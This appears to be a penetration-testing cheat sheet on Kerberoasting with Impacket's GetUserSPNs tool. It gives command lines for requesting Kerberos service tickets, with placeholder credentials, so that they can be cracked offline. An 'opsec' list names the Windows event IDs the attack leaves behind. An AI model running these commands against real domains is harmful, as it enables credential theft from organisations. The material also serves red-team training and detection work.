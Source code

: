 ### source
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py  

### get user with SPN set and request tickets (kerberoast)
```
impacket-GetUserSPNs -request <domain>/<user>:<password> -outputfile <file>
```

### query single account for available SPNs 
```
impacket-GetUserSPNs -request <domain>/<user>:<password> -request-user <user>
```

### opsec considerations - Windows Security Log Event IDs
```
-Logon (4624)
-Logoff (4634)
-Kerberos Authentication Service (4768)
-Kerberos Service Ticket Operations (4769)
-Credential Validation (4776)
```

